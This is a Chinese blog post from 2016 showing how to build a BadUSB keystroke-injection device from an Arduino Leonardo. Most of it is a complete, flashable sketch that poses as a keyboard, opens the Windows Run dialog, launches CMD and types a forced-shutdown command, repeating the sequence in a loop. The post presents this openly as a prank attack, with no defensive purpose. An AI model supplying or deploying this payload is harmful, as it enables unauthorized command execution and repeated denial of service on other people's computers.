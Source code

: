 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

# 目标
Bad USB

# 效果
![](/content/images/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 🌰

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```


# 参考
http://www.freebuf.com/sectool/107242.html

